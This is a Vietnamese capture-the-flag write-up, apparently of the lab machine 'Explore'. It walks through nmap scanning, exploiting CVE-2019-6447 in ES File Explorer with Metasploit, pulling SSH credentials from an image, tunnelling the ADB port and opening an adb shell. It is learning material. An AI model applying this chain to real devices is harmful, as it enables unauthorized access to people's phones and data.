


<div align='center'>

# **Explore**

</div>

## **1) Thu thập thông tin**

### **Nmap**

Kiểm tra các port đang mở bằng lệnh `nmap`:

```
nmap -p- 10.10.10.247
```


Ta thấy có các port đang mở là 2222, 5555, 45833, 59777

Scan thêm các dịch vụ đang chạy trên các port đó:

```
nmap -p 2222,5555,45833,59777 -sC -sV 
```

<details>
    <summary>Kết quả</summary>

```
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
5555/tcp  filtered freeciv
45833/tcp open     unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Mon, 27 Nov 2023 03:44:29 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Mon, 27 Nov 2023 03:44:29 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Mon, 27 Nov 2023 03:44:35 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Mon, 27 Nov 2023 03:44:51 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Mon, 27 Nov 2023 03:44:35 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Mon, 27 Nov 2023 03:44:51 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Mon, 27 Nov 2023 03:44:52 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Mon, 27 Nov 2023 03:44:51 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.94SVN%I=7%D=11/27%Time=6564109A%P=x86_64-pc-linux-gnu%
SF:r(NULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port45833-TCP:V=7.94SVN%I=7%D=11/27%Time=6564109A%P=x86_64-pc-linux-gnu
SF:%r(GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,
SF:\x2027\x20Nov\x202023\x2003:44:29\x20GMT\r\nContent-Length:\x2022\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\
SF:r\n\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20
SF:412\x20Precondition\x20Failed\r\nDate:\x20Mon,\x2027\x20Nov\x202023\x20
SF:03:44:29\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTT
SF:P/1\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Mon,\x2027\x20Nov\x2020
SF:23\x2003:44:35\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text
SF:/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20no
SF:t\x20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\
SF:x20Request\r\nDate:\x20Mon,\x2027\x20Nov\x202023\x2003:44:35\x20GMT\r\n
SF:Content-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASC
SF:II\r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20vers
SF:ion:\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Mon,\x2027\x20Nov\x202023\x2003:44:51\x20GMT\r\nContent-Leng
SF:th:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnec
SF:tion:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessio
SF:nReq,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,\x2027\x20N
SF:ov\x202023\x2003:44:51\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:
SF:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInva
SF:lid\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?
SF:`~\?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(Termin
SF:alServerCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,\
SF:x2027\x20Nov\x202023\x2003:44:51\x20GMT\r\nContent-Length:\x2054\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r
SF:\n\r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20
SF:mstshash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nDate:\x20Mon,\x2027\x20Nov\x202023\x2003:44:52\x20GMT\r\nContent-Len
SF:gth:\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConne
SF:ction:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01
SF:\0\0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
```

</details>

Ta thấy port 2222 chạy dịch vụ SSH, port 45833 chạy dịch vụ HTTP, port 59777 chạy dịch vụ HTTP và port 5555 bị "filtered".

Tìm kiếm thông tin về các port này, ta thấy kết quả thú vị trên port 5555 và 59777:


Ta thấy tồn tại nhiều dịch vụ có lỗ hỏng chạy trên port này. Tuy nhiên, ta không thể truy cập vào được port 5555, vì nó bị "filtered". Vì vậy, ta sẽ tìm hiểu về port 59777.


Port 59777 thường được sử dụng bởi ứng dụng Android ES File Explorer và ta thấy tồn tại lỗ hỏng CVE-2019-6447 trên ứng dụng này. Ta thử khai thác chúng

## **2) Khai thác lỗ hỏng**

### **MetaSploit**

Tìm kiếm module khai thác lỗ hỏng này trên MetaSploit:

```
search CVE-2019-6447
```


Sử dụng module này


Các lệnh chúng ta có thể khai thác:


Xem các file ảnh trên thiết bị bằng lệnh listpics:


Ta thấy file ảnh `creds.jpg` khá thú vị. Ta sẽ thử tải file này về máy tính của mình bằng lệnh getfile:



Xem ảnh `creds.jpg`:


Ta thấy thông tin credential của user `kristi` với mật khẩu là `Kr1sT!5h@Rp3xPl0r3!`. Truy cập thử qua ssh thì thành công

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -p 2222 kristi@10.10.10.247
```


## **3) Forward port 5555 để máy tấn công có thể tương tác với nó**

Nhìn qua cấu trúc hệ thống file thì rất giống với hệ thống file của máy Android, vì vậy khả năng là port 5555 đang chạy dịch vụ ADB. Ta sẽ forward port 5555 để máy tấn công có thể tương tác với nó

```bash
ssh -L 5555:localhost:5555  -oHostKeyAlgorithms=+ssh-rsa kristi@10.10.10.247 -p 2222
```



Kiểm tra lại bằng lệnh nmap:


## **4) Leo quyền thông qua adb**

```bash
adb connect 127.0.0.1:5555
adb devices
```


```bash
adb shell
```

